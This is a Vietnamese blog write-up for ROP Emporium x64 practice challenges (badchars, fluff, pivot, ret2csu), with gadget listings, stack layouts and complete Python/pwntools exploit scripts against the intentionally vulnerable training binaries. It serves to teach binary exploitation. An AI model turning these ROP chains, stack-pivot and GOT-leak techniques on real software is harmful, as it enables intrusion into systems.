

+++
title = "Học khai thác lỗ hổng bảo mật qua ROP Emporium - Part 2"
date = "2023-10-17"
tags = ["binary", "exploit", "rop", "x64"]
description = "ROP Gadget in Binary Exploit"
author = "minix"
+++

## Bad chars
Challenge 5 cũng tương tự challenge 4 Write 4 nhưng chuỗi khi truyền vào sẽ được kiểm tra các ký tự, nếu gặp các ký tự này sẽ bị thay thế bằng 0xeb


Như vậy ta cần tránh các ký tự 4 kí tự là “x”,  “g”, “a” ,“.”

 Và để tránh truyền các ký tự này ta sẽ truyền vào string “flag.txt” đã được encrypt từng byte bằng phép xor với 0x50 (chọn key để tránh các kí tự trên) và sử dụnng gadget xor để decrypt trước khi thực thi 

Tiến hành lấy địa chỉ các gadget cần thiết

```text-plain
 $ rabin2 -i badchars
[Imports]
nth vaddr      bind   type   lib name
―――――――――――――――――――――――――――――――――――――
...
4   0x00400510 GLOBAL FUNC       print_file

$ rabin2 -S badchars
[Sections]
nth paddr        size vaddr       vsize perm name
―――――――――――――――――――――――――――――――――――――――――――――――――
23  0x00001028   0x10 0x00601028   0x10 -rw- .data

$ python3 Ropper.py -f badchars
...
0x000000000040069c: pop r12; pop r13; pop r14; pop r15; ret;  
0x00000000004006a3: pop rdi; ret;
0x00000000004004ee: ret;
0x0000000000400628: xor byte ptr [r15], r14b; ret;
0x0000000000400634: mov qword ptr [r13], r12; ret;
0x00000000004006a2: pop r15; ret; 
```

Build stack như sau

```text-plain
---> Load encrypted flag vào section .data
[A*8  ]
[.....]
[A*8  ] -> 40*A
[0x40069c] -> pop r12; pop r13; pop r14; pop r15; ret;
[encrypted_flag] -> 8 byte encrypted "flag.txt" -> r12
[0x601028 + 7] -> -rw- .data -> r13; Vì 0x601028 + 0x6 = 0x60102e có 0x2e là '.' nên ta cộng thêm 7 vào địa chỉ
[key] -> encrypt key -> r14
[0x601028] -> -rw- .data -> r15
[0x400634] -> mov qword ptr [r13], r12; ret;  -> lấy encrypted 'flag.txt' (r12) lưu vào .data (r13)
---> Lặp lại gadget xor với mỗi byte trong encrypted flag lưu tại .data
[0x400628] -> xor byte ptr [r15], r14b; ret;
[0x4006a2] -> pop r15; ret;
[0x601028 + 7 + i] -> Với  1<= i < 8
[0x400628] -> xor byte ptr [r15], r14b; ret; byte cuối của encrypted flag
[0x4006a3] -> pop rdi; ret;
[0x601028 + 7] -> rdi -> arg1 của print_file
[0x4004ee] -> ret;
[0x400510] -> print_file();
```

Dựa trên stack như trên ta build payload sử dụng python và struct module

```text-x-python
from struct import pack
import sys

def p(x):
    return pack('<Q', x)

data_loc_addr = 0x601028 + 7 # because 0x601028 + 0x6 = 0x60102e and 0x2e is '.' in badchars
key = 0x50
filename = 'flag.txt'
enc_filename = ''

for c in filename:
    enc_filename += chr(ord(c) ^ key)

payload = b''
payload += b'B'*40
payload += p(0x40069c) # pop r12; pop r13; pop r14; pop r15; ret; 
payload += enc_filename.encode() # r12
payload += p(data_loc_addr) # r13
payload += p(key) # r14
payload += p(data_loc_addr) # r15
payload += p(0x400634) # mov qword ptr [r13], r12; ret;
for i in range(1,8):
    payload += p(0x400628) # xor byte ptr [r15], r14b; ret;
    payload += p(0x4006a2) # pop r15; ret;
    payload += p(data_loc_addr + i)
payload += p(0x400628) # xor byte ptr [r15], r14b; ret;
payload += p(0x4006a3) # pop rdi; ret;
payload += p(data_loc_addr)
payload += p(0x4004ee) # ret;
payload += p(0x400510) # print_file

sys.stdout.buffer.write(payload)
```

## Fluff
Challenge 6 tương tự challenge 4 Write 4 nhưng ta sẽ dùng các gadget mới hơn để xây dựng ROP chain

Tiến hành lấy các gadget cần thiết

```text-plain
 $ rabin2 -i fluff
[Imports]
nth vaddr      bind   type   lib name
―――――――――――――――――――――――――――――――――――――
...
4   0x00400510 GLOBAL FUNC       print_file

$ rabin2 -S fluff
[Sections]
nth paddr        size vaddr       vsize perm name
―――――――――――――――――――――――――――――――――――――――――――――――――
23  0x00001028   0x10 0x00601028   0x10 -rw- .data

$ python3 Ropper.py -f badchars
...
0x000000000040062a: pop rdx; pop rcx; add rcx, 0x3ef2; bextr rbx, rcx, rdx; ret; 
0x0000000000400639: stosb byte ptr [rdi], al; ret; 
0x0000000000400628: xlatb; ret;
0x00000000004006a3: pop rdi; ret;
0x0000000000400295: ret;
```

Ở đây ta thiếu các gadget như challenge 4 để truyền string “flag.txt” vào .data section.

Ta dùng gadget `stosb byte ptr [rdi], al; ret;` để truyền giá trị thanh ghi `al` vào `[rdi]` với rdi là địa chỉ section .data được control bằng gadget  `pop rdi; ret;`. Lưu ý rdi sẽ tự add 0x1 vào mỗi lần thực thi gadget này

Để control thanh ghi `al` ta sử dụng gadget `xlatb; ret;` xlatb sẽ tương đương gán `al = rbx + al`. Do đó khi control được `rbx` ta sẽ  điều chỉnh được thanh ghi `al` [https://www.felixcloutier.com/x86/xlat:xlatb](https://www.felixcloutier.com/x86/xlat:xlatb)

Để control rbx ta sẽ dùng gadget `pop rdx; pop rcx; add rcx, 0x3ef2; bextr rbx, rcx, rdx; ret;`, với instruction `bextr rbx, rcx, rdx; ret;` sẽ trích xuất các bit liên tục từ start `rcx` với length `rdx` (rcx lấy bit từ 0:7, rdx lấy bit từ 8:15)

Ta xây dựng stack như sau

```text-plain
[A*8  ]
[.....]
[A*8  ] -> 40*A
[0x4006a3] -> pop rdi; ret;
[0x601028] -> -rw- .data -> control rdi cho gadget stosb
---> Control al, lấy từng ký tự 'flag.txt'
[0x40062a] -> pop rdx; pop rcx; add rcx, 0x3ef2; bextr rbx, rcx, rdx; ret;
[0x4000] -> rdx -> length bit [8:15] = 0x40 (8 bits = 1 byte)
[base + index - 0x3ef2 - current_al] -> base + index là vị trí của từng ký tự 'flag.txt' trong binary, ta phải cộng thêm giá trị hiện tại của al vì xlatb sẽ là al := rbx + al và trừ đi 0x3e2f do instruction 'add rcx, 0x3ef2' khi đó al := giá trị tại vị trí của 'flag.txt'
[0x400628] -> xlatb; ret;
[0x400639] -> stosb byte ptr [rdi], al; ret; 
----> Sau khi lấy hết ký tự 'flag.txt' vào rdi, ta truyền vào hàm print_file()
[0x4006a3] -> pop rdi; ret;
[0x400295] -> ret;
[0x400510] -> print_file();
```

Exploit code

```text-x-python
from struct import pack
import sys

base = 0x400000
length = 0x4000 #length bits, bit from  15:8 is 0x40 -> 64 bit, 8 byte
xlatb = 0x0000000000400628 # xlatb; ret;
bextr = 0x000000000040062a # pop rdx; pop rcx; add rcx, 0x3ef2; bextr rbx, rcx, rdx; ret; 
stosb = 0x0000000000400639 # stosb byte ptr [rdi], al; ret;
pop_rdi = 0x00000000004006a3 # pop rdi; ret;
data_section_addrs = 0x00601028
print_file_addrs = 0x00400510 # 4   0x00400510 GLOBAL FUNC       print_file
ret = 0x0000000000400295 # ret;
current_rax = 0xb

def p(x):
    return pack("<Q", x)

def find_index(filename='flag.txt'):
    indexes = []
    with open('fluff', 'rb') as f:
        buff = f.read()
        for c in filename:
            indexes.append(buff.index(bytes(c,'ascii')))
    return indexes

filename = 'flag.txt'
filename_index = find_index(filename=filename) # index of char in binary to create string 'flag.txt'

payload = b''
payload += b'A'*40
payload += p(pop_rdi)
payload += p(data_section_addrs)
for i, index in enumerate(filename_index):
    payload += p(bextr)
    payload += p(length)
    payload += p(base + index - 0x3ef2 - current_rax)
    payload += p(xlatb)
    payload += p(stosb)
    current_rax = ord(filename[i])
payload += p(pop_rdi)
payload += p(data_section_addrs)
payload += p(ret)
payload += p(print_file_addrs)

sys.stdout.buffer.write(payload)
```
## Pivot
Challenge 7 ta sẽ bị giới hạn số lượng bytes có thể overflow do đó ta cần chuyển hướng rsp - stack pointer đến vị trí khác để có thể thực thi


Ở challenge này tác giả đã khởi tạo 0x10000000 bytes bộ nhớ và cho địa chỉ tại stdout, ta chỉ cần chuyển hướng stack pointer đến địa chỉ này và sử dụng. 

Hàm memset sẽ chỉ cho phép 0x20 = 32 bytes trong bộ nhớ nên ta chỉ có thể overflow 32 bytes, vừa đủ để pivot stack.



Do giá trị trên sẽ thay đổi ở các lần thực thi (hàm malloc sẽ trả về giá trị khác nhau) và ta sẽ cần lấy giá trị đó để thay đổi giá trị trong payload trước khi truyền nên cần sử dụng thêm thư viện pwntools 

Payload 2: Lấy địa chỉ đã cho và chuyển hướng rsp tới đó

Các gadget cần thiết

```text-plain
$ python3 Ropper.py -f pivot
...
0x00000000004009bb: pop rax; ret;
0x00000000004009bd: xchg rax, rsp; ret;
```

Lấy input từ stdout và build stack

```text-x-python
line1 = p.recvuntil(b'>')
heap_addr = int(re.search('pivot: (0x\w+)', line1.decode()).group(1), 16)

payload2 = b'A'*40
payload2 += p64(0x4009bb) #0x00000000004009bb: pop rax; ret;
payload2 += p64(heap_addr)
payload2 += p64(0x4009bd) # 0x00000000004009bd: xchg rax, rsp; ret;
p.sendline(payload2)
```

Payload 1: Build ROP chain sẽ thực thi sau khi chuyển hướng

```text-plain
 $ rabin2 -i pivot
[Imports]
nth vaddr      bind   type   lib name
―――――――――――――――――――――――――――――――――――――
...
2   0x004006e0 GLOBAL FUNC       puts
8   0x00400720 GLOBAL FUNC       foothold_function

$ rabin2 -S pivot
[Sections]
nth paddr        size vaddr       vsize perm name
―――――――――――――――――――――――――――――――――――――――――――――――――
...
23  0x00001028   0x10 0x00601028   0x10 -rw- .data

$ rabin2 -is libpivot.so
...
[Symbols]

nth paddr      vaddr      bind   type   size lib name
―――――――――――――――――――――――――――――――――――――――――――――――――――――
10  0x0000096a 0x0000096a GLOBAL FUNC   19       foothold_function
18  0x00000a81 0x00000a81 GLOBAL FUNC   146      ret2win

$ readelf -r pivot 
Relocation section '.rela.plt' at offset 0x5c8 contains 9 entries:
  Offset          Info           Type           Sym. Value    Sym. Name + Addend
  ...
000000601020  000200000007 R_X86_64_JUMP_SLO 0000000000000000 puts@GLIBC_2.2.5 + 0
000000601040  000800000007 R_X86_64_JUMP_SLO 0000000000000000 foothold_function + 0

$ radare2 pivot
[0x00400760]> aaa
[0x00400760]> afl
[0x00400760]> s sym.imp.foothold_function
[0x00400720]> pdf
	0x00400720      ff251a092000   jmp qword [reloc.foothold_function] ; [0x601040:8]=0x400726 ; "&\a@"
```

Hàm ret2win không nằm trong binary mà nằm trong libpivot.so do đó ta cần tìm hiểu về lazy binding, để biết được địa chỉ của ret2win ta cần một hàm trong libpivot.so mà pivot gọi đó là foothold\_function.

Khi ta gọi đến foothold\_function@plt tại 0x400720 lần đầu tiên, ta sẽ jump tới ptr và ptr này sẽ trỏ tới got.plt section, tại đây địa chỉ sẽ được resolve tới địa chỉ của libpivot.so và cập nhật vào got.plt. Lần gọi thứ 2 ta sẽ jump  tới trực tiếp hàm trong libpivot.so mà không cần resolve nữa

[https://systemoverlord.com/2017/03/19/got-and-plt-for-pwning.html](https://systemoverlord.com/2017/03/19/got-and-plt-for-pwning.html)

Ví dụ:

Khi ta gọi puts@plt (0x400872)


Jump tới got.plt


```text-plain
$ readelf -r pivot 
Relocation section '.rela.plt' at offset 0x5c8 contains 9 entries:
  Offset          Info           Type           Sym. Value    Sym. Name + Addend
  ...
000000601020  000200000007 R_X86_64_JUMP_SLO 0000000000000000 puts@GLIBC_2.2.5 + 0
```


Lookup “put” trong GOT


Ta thấy địa chỉ 0x00007ffff7ffe2c0 nằm trong phần data của ld-linux-x86-64.so


0x00007ffff7fdd540 nằm trong execution của ld-linux-x86-64.so


Khi ta call put@plt lần 2, got.plt sẽ trỏ đến put trong ld-linux-x86-64.so

```text-x-python
$ readelf -r pivot 
Relocation section '.rela.plt' at offset 0x5c8 contains 9 entries:
  Offset          Info           Type           Sym. Value    Sym. Name + Addend
  ...
000000601020  000200000007 R_X86_64_JUMP_SLO 0000000000000000 puts@GLIBC_2.2.5 + 0
```


Như vậy để có được địa chỉ của hàm ret2win trong libpivot.so ta cần gọi hàm foothold\_function 1 lần, lấy địa chỉ đã resolve của foothold\_function trong got.plt và thêm vào offset khoảng cách giữa foothold\_function và ret2win là ta sẽ có địa chỉ cần tìm.

```text-x-python
Stack như sau:
[0x400720] -> foothold_function@plt
[0x4009bb] -> pop rax; ret;
[0x601040] -> foothold_function@got.plt -> rax; rax lúc này trỏ đến địa chỉ của foothold_function
[0x4009c0] -> mov rax, qword ptr [rax]; ret; Lấy địa chỉ của foothold_function đã resolve
---> thêm offset giữa foothold và ret2win để rax trỏ về ret2win
[0x4007c8] -> pop rbp; ret;
[0x4009c4] -> add rax, rbp; ret;
[0x4006b0] -> call rax; Gọi ret2win
```

Code payload 1

```text-x-python
lib_foothold_addrs = 0x0000096a # 10  0x0000096a 0x0000096a GLOBAL FUNC   19       foothold_function
lib_ret2win_addrs = 0x00000a81 # 18  0x00000a81 0x00000a81 GLOBAL FUNC   146      ret2win

payload1 = p64(0x400720) #8   0x00400720 GLOBAL FUNC       foothold_function
payload1 += p64(0x4009bb) # 0x00000000004009bb: pop rax; ret;
payload1 += p64(0x601040) # 6: sym.imp.foothold_function (); 0x00400720      ff251a092000   jmp qword [reloc.foothold_function] ; [0x601040:8]=0x400726;
payload1 += p64(0x4009c0) # 0x00000000004009c0: mov rax, qword ptr [rax]; ret;
payload1 += p64(0x4007c8) # 0x00000000004007c8: pop rbp; ret;
payload1 += p64(lib_ret2win_addrs-lib_foothold_addrs) #offset
payload1 += p64(0x4009c4) # 0x00000000004009c4: add rax, rbp; ret; 
payload1 += p64(0x4006b0) # 0x00000000004006b0: call rax;
p.sendline(payload1)
```

Kết hợp 2 payload

```text-x-python
from pwn import *
import re

context.update(arch='amd64', os='linux')

p = process('./pivot')
# gdb.attach(p,'''
# break *pwnme
# ''')

line1 = p.recvuntil(b'>')
print(line1)
heap_addr = int(re.search('pivot: (0x\w+)', line1.decode()).group(1), 16)
print("Found heap address: {:02x}".format(heap_addr))

lib_foothold_addrs = 0x0000096a # 10  0x0000096a 0x0000096a GLOBAL FUNC   19       foothold_function
lib_ret2win_addrs = 0x00000a81 # 18  0x00000a81 0x00000a81 GLOBAL FUNC   146      ret2win

payload1 = p64(0x400720) #8   0x00400720 GLOBAL FUNC       foothold_function
payload1 += p64(0x4009bb) # 0x00000000004009bb: pop rax; ret;
payload1 += p64(0x601040) # 6: sym.imp.foothold_function (); 0x00400720      ff251a092000   jmp qword [reloc.foothold_function] ; [0x601040:8]=0x400726;
payload1 += p64(0x4009c0) # 0x00000000004009c0: mov rax, qword ptr [rax]; ret;
payload1 += p64(0x4007c8) # 0x00000000004007c8: pop rbp; ret;
payload1 += p64(lib_ret2win_addrs-lib_foothold_addrs) #offset
payload1 += p64(0x4009c4) # 0x00000000004009c4: add rax, rbp; ret; 
payload1 += p64(0x4006b0) # 0x00000000004006b0: call rax;
p.sendline(payload1)

line2 = p.recvuntil(b'>')
print(line2)

payload2 = b'A'*40
payload2 += p64(0x4009bb) #0x00000000004009bb: pop rax; ret;
payload2 += p64(heap_addr)
payload2 += p64(0x4009bd) # 0x00000000004009bd: xchg rax, rsp; ret;
p.sendline(payload2)

line3 = p.recvuntil('libpivot')
print(line3)

# leak_foothold_got = p.recv(8)
# print(leak_foothold_got.hex())

print(p.recvall())

# p.interactive()
```

## Ret2csu
Challenge 8 tương tự Challenge 3 Callme, tuy nhiên ta sẽ sử dụng phương pháp khác để lấy kiểm soát các giá trị rdi, rsi, rdx (3 thanh ghi  chứa tham số arg1, arg2, arg3)

[https://i.blackhat.com/briefings/asia/2018/asia-18-Marco-return-to-csu-a-new-method-to-bypass-the-64-bit-Linux-ASLR-wp.pdf](https://i.blackhat.com/briefings/asia/2018/asia-18-Marco-return-to-csu-a-new-method-to-bypass-the-64-bit-Linux-ASLR-wp.pdf)

Ở đây ta sẽ có 2 Gadget, sử dụng radare2 để disassemble function \_\_libc\_csu\_init\_\_

```text-plain
 radare2 ret2csu 
[0x00400520]> aaa
[0x00400520]> afl
...
0x00400640    4 101          sym.__libc_csu_init
...
[0x00400520]> s sym.__libc_csu_init
[0x00400640]> pdf
            ; DATA XREF from entry0 @ 0x400536
┌ 101: sym.__libc_csu_init (int64_t arg1, int64_t arg2, int64_t arg3);
│           ; arg int64_t arg1 @ rdi
│           ; arg int64_t arg2 @ rsi
│           ; arg int64_t arg3 @ rdx
│           0x00400640      4157           push r15
│           0x00400642      4156           push r14
│           0x00400644      4989d7         mov r15, rdx                ; arg3
│           0x00400647      4155           push r13
│           0x00400649      4154           push r12
│           0x0040064b      4c8d259e0720.  lea r12, obj.__frame_dummy_init_array_entry ; loc.__init_array_start
│                                                                      ; 0x600df0
│           0x00400652      55             push rbp
│           0x00400653      488d2d9e0720.  lea rbp, obj.__do_global_dtors_aux_fini_array_entry ; loc.__init_array_end
│                                                                      ; 0x600df8
│           0x0040065a      53             push rbx
│           0x0040065b      4189fd         mov r13d, edi               ; arg1
│           0x0040065e      4989f6         mov r14, rsi                ; arg2
│           0x00400661      4c29e5         sub rbp, r12
│           0x00400664      4883ec08       sub rsp, 8
│           0x00400668      48c1fd03       sar rbp, 3
│           0x0040066c      e85ffeffff     call sym._init
│           0x00400671      4885ed         test rbp, rbp
│       ┌─< 0x00400674      7420           je 0x400696
│       │   0x00400676      31db           xor ebx, ebx
│       │   0x00400678      0f1f84000000.  nop dword [rax + rax]
│       │   ; CODE XREF from sym.__libc_csu_init @ 0x400694
│      ┌──> 0x00400680      4c89fa         mov rdx, r15
│      ╎│   0x00400683      4c89f6         mov rsi, r14
│      ╎│   0x00400686      4489ef         mov edi, r13d
│      ╎│   0x00400689      41ff14dc       call qword [r12 + rbx*8]
│      ╎│   0x0040068d      4883c301       add rbx, 1
│      ╎│   0x00400691      4839dd         cmp rbp, rbx
│      └──< 0x00400694      75ea           jne 0x400680
│       │   ; CODE XREF from sym.__libc_csu_init @ 0x400674
│       └─> 0x00400696      4883c408       add rsp, 8
│           0x0040069a      5b             pop rbx
│           0x0040069b      5d             pop rbp
│           0x0040069c      415c           pop r12
│           0x0040069e      415d           pop r13
│           0x004006a0      415e           pop r14
│           0x004006a2      415f           pop r15
└           0x004006a4      c3             ret
[0x00400640]>
```

Ta có Gadget 1:

```text-plain
│      ┌──> 0x00400680      4c89fa         mov rdx, r15
│      ╎│   0x00400683      4c89f6         mov rsi, r14
│      ╎│   0x00400686      4489ef         mov edi, r13d
│      ╎│   0x00400689      41ff14dc       call qword [r12 + rbx*8]
```

Gadget 2

```text-plain
│           0x0040069a      5b             pop rbx
│           0x0040069b      5d             pop rbp
│           0x0040069c      415c           pop r12
│           0x0040069e      415d           pop r13
│           0x004006a0      415e           pop r14
│           0x004006a2      415f           pop r15
└           0x004006a4      c3             ret
```

Với payload1 ta sử dụng Gadget 2 để truyền giá trị arg vào r13, r14, r15, Gadget2 cũng control r12 để kết hợp với Gadget 1 gọi đến hàm chúng ta mong muốn đồng thời control edi, rsi, rdx

```text-x-python
payload1 = b'A'*40
payload1 += p64(libc_csu_int + 0x5a) # Gadget 1
payload1 += p64(0x0) # rbx
payload1 += p64(0x1) # rbp -> add rbx, 0x1;cmp rbp, rbx; jne __libc_csu_init -> rbx==rbp
payload1 += p64(init) # r12 -> call qword [r12 + rbx*8]
payload1 += p64(0xdeadbeefdeadbeef) # r13 -> edi
payload1 += p64(0xcafebabecafebabe) # r14 -> rsi
payload1 += p64(0xd00df00dd00df00d) # r15 -> rdx
```

Tới đây ta có rsi và rdx, riêng rdi ta cần phải thực hiện ở payload2, đó là lí do ta không gọi trực tiếp hàm ret2win với r12

Với r12 ta sử dụng hàm `__init__` vì  nó không cần đối số

Ta thấy sau `call qword [r12 + rbx*8]` thì rbx sẽ từ 0 thêm 1 và nếu rbp khác rbx  thì sẽ quay lại 0x400680. Đó là lí do tại payload1 ta sẽ cho rbp bằng 0x1 để thực hiện đoạn tiếp theo và đoạn này chứa Gadget 2

```text-plain
│      ┌──> 0x00400680      4c89fa         mov rdx, r15
│      ╎│   0x00400683      4c89f6         mov rsi, r14
│      ╎│   0x00400686      4489ef         mov edi, r13d
│      ╎│   0x00400689      41ff14dc       call qword [r12 + rbx*8]
│      ╎│   0x0040068d      4883c301       add rbx, 1
│      ╎│   0x00400691      4839dd         cmp rbp, rbx
│      └──< 0x00400694      75ea           jne 0x400680
```

Ở payload 2 ta sẽ thêm vào rsp một đoạn padding bất kỳ do trước kế tiếp payload1 sẽ là `add rsp, 8`, tại payload 2 ta gọi hàm trong r12 ở đây là `__init__` (chỉ để giữ nguyên rsi, rdi, rdx). Kế tiếp ta truyền giá trị cho rdi do Gadget 2 trước đó chỉ control được edi. 

```text-x-python
payload2 = p64(libc_csu_int + 0x40) # Gadget 2
payload2 += b'B'*8
payload2 += p64(0x0) # rbx
payload2 += p64(0x0) # rbp
payload2 += p64(0x0) # r12
payload2 += p64(0x0) # r13
payload2 += p64(0x0) # r14
payload2 += p64(0x0) # r15
payload2 += p64(0x4006a3) # 0x00000000004006a3: pop rdi; ret;
payload2 += p64(0xdeadbeefdeadbeef) # -> rdi
payload2 += p64(ret2win)
```

Kết hợp 2 payload

```text-x-python
from pwn import *

libc_csu_int = 0x400640 # 55  0x00000640 0x00400640 GLOBAL FUNC   101      __libc_csu_init
init = 0x400398 # 0x400398 point to 0x4004d0 # 8   0x000004d0 0x004004d0 GLOBAL FUNC   0        _init
ret2win_GOT = 0x601020 # 0x00400510 ff250a0b2000   jmp qword [reloc.ret2win]   ; [0x601020:8]=0x400516
ret2win = 0x400510 #2   0x00000510 0x00400510 GLOBAL FUNC   16       imp.ret2win


context.update(arch='amd64', os='linux')

p = process('./ret2csu')
# gdb.attach(p,'''
# break *pwnme
# ''')

payload1 = b'A'*40
payload1 += p64(libc_csu_int + 0x5a) # Gadget 1
payload1 += p64(0x0) # rbx
payload1 += p64(0x1) # rbp -> add rbx, 0x1;cmp rbp, rbx; jne __libc_csu_init -> rbx==rbp
payload1 += p64(init) # r12 -> call qword [r12 + rbx*8]
payload1 += p64(0xdeadbeefdeadbeef) # r13 -> edi
payload1 += p64(0xcafebabecafebabe) # r14 -> rsi
payload1 += p64(0xd00df00dd00df00d) # r15 -> rdx

payload2 = p64(libc_csu_int + 0x40) # Gadget 2
payload2 += b'B'*8
payload2 += p64(0x0) # rbx
payload2 += p64(0x0) # rbp
payload2 += p64(0x0) # r12
payload2 += p64(0x0) # r13
payload2 += p64(0x0) # r14
payload2 += p64(0x0) # r15
payload2 += p64(0x4006a3) # 0x00000000004006a3: pop rdi; ret;
payload2 += p64(0xdeadbeefdeadbeef) # -> rdi
payload2 += p64(ret2win)

line1 = p.recvuntil(b'>')
print(line1)

p.sendline(payload1 + payload2)
line2 = p.recvall()
print(line2)

# p.interactive()
```